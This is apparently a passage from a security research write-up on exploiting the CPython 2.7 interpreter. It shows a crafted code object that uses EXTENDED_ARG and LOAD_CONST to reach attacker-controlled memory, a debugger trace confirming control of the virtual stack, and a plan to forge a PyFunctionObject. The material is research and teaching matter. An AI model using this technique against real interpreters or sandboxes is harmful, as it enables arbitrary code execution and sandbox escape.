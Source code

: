 ```python 
    print 'Going to push [%#.8x] on the virtual stack' % (address_consts + (address_s - address_consts - 0xC) + 0xc)
    
    a.func_code = types.CodeType(
      0, 0, 0, 0,
      chr(opcode.opmap['EXTENDED_ARG']) + pshort(high) +
      chr(opcode.opmap['LOAD_CONST'])   + pshort(low),
      consts, (), (), '', '', 0, ''
    )
    a()
```

..annnnd..

```text 
debugger view
    D:\>python 1.py
    Consts tuple @0x01db1030
    Address of controled data @0x022a0654
    Offset between const and our object: @0x0013bd86
    Going to push [0x022a0654] on the virtual stack
    
    *JIT debugger pops*
    
    eax=01db1030 ebx=00000000 ecx=00000063 edx=00000046 esi=deadbeef edi=0013bd86
    eip=1e0ec5fb esp=0027fc68 ebp=01e63fc0 iopl=0         nv up ei ng nz na pe cy
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010287
    python27!PyEval_EvalFrameEx+0x34b:
    1e0ec5fb ff06            inc     dword ptr [esi]      ds:002b:deadbeef=????????
    0:000> ub eip l1
    python27!PyEval_EvalFrameEx+0x347:
    1e0ec5f7 8b74b80c        mov     esi,dword ptr [eax+edi*4+0Ch]
    0:000> ? eax+edi*4+c
    Evaluate expression: 36308564 = 022a0654
    0:000> dd 022a0654 l1
    022a0654  deadbeef <- the data we control in our PyStringObject
    0:000> dps 022a0654-0n20 l2
    022a0640  00000003
    022a0644  1e226798 python27!PyString_Type
```

Perfect, we control a part of the virtual stack :).

## Game over, LOAD_FUNCTION

Once you control the virtual stack, the only limit is your imagination and the ability you have to find an interesting spot in the virtual machine. My idea was to use the *CALL_FUNCTION* opcode to craft a *PyFunctionObject* somehow, push it onto the virtual stack and to use the magic opcode. 

```c 
PyFunctionObject definition
    typedef struct {
      PyObject_HEAD
      PyObject *func_code;  /* A code object */
      PyObject *func_globals; /* A dictionary (other mappings won't do) */
      PyObject *func_defaults;  /* NULL or a tuple */
      PyObject *func_closure; /* NULL or a tuple of cell objects */
      PyObject *func_doc;   /* The __doc__ attribute, can be anything */
      PyObject *func_name;  /* The __name__ attribute, a string object */
      PyObject *func_dict;  /* The __dict__ attribute, a dict or NULL */
      PyObject *func_weakreflist; /* List of weak references */
      PyObject *func_module;  /* The __module__ attribute, can be anything */
    } PyFunctionObject;
```
